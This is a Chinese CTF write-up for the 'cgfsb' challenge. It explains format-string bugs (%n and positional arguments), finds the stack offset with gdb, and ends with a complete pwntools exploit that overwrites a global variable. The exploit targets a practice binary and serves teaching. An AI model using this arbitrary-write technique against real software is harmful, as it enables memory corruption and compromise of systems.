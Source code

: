 # 攻防世界: cgfsb

## **[目标]**

利用格式化字符串漏洞，造成任意地址写。

## **[环境]**

Ubuntu

## **[工具]**

gdb、python、pwntools, IDA

## **[过程分析]**

- 我们先看一下这道题的逻辑：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/CGfsb/pic/1.png)

- 输入 name，返回 name； 输入message，返回message。
- 从ida中查看伪代码：

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/CGfsb/pic/2.png)

- 利用过程：通过格式化字符串漏洞，将 pwnme 的值修改成8。

简单的介绍一下格式化字符串漏洞的知识点：

- %n 将当前已打印字符的个数（4个字节）
- %<正整数n>$< fmt>指定占位符对应第n个参数，例如：%12$x，此处%x对应第12个参数。
- 通过 ida 查看汇编代码 找到`call printf`的地址（调用printf(&s)）。之后我们用gdb进行调试，在调用printf(&s)之前下一个断点,查看接收 message 的变量 s 是格式化字符串的第几个参数。输入 message 的时候输入 ‘aaaa’。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/CGfsb/pic/3.png)

- 查看当前栈中的内容。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/CGfsb/pic/4.png)

- 这个我们可以通过 输入message的时候，把 pwnme的地址（在ida中点击伪代码中的pwnme就能查看到了） 写到这个位置，然后把这个地址的值修改成8（利用格式化字符串漏洞的任意内存写）。我们就可以构造出下面的payload啦：

pwnme的地址+aaaa 凑出8个字节，这样就可以在10$的位置 写入8（四个字节）改变pwnme的值。

payload = p32(pwnme_addr) + 'aaaa%10$n'

完整的exp：

```python
from pwn import *
context.log_level = 'debug' 
DEBUG = int(sys.argv[1])
if DEBUG == 1:
	p = process('./cgfsb') 
else: 
	p = remote('10.10.49.194', 30147)
pwnme_addr = 0x0804A068
payload1 = "ABCD" 
payload2 = p32(pwnme_addr) + 'aaaa%10$n'
p.recvuntil('please tell me your name:\n') 
p.sendline(payload1)
p.recvuntil('leave your message please:\n') 
p.sendline(payload2)
print p.recv() 
```